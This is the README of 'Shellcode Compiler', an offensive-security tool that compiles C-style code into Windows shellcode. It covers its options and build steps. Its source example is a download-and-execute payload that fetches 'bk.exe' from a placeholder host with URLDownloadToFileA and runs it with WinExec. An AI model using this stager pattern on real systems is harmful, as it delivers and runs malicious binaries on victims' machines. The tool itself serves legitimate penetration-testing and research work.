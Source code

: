 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with Keystone engine.

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
        -p (--platform)  : Shellcode platform: win_x86,win_x64,linux_x86,linux_x64
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog
1. Initial support for Windows x64

# Keystone compilation
1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio 2019 - x86 (for 32 bits) and x64 (for 64 bits) Native Tools Command Prompts and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone_x86.lib and keystone_x64.lib

# Author

Ionut Popescu (@NytroRST)
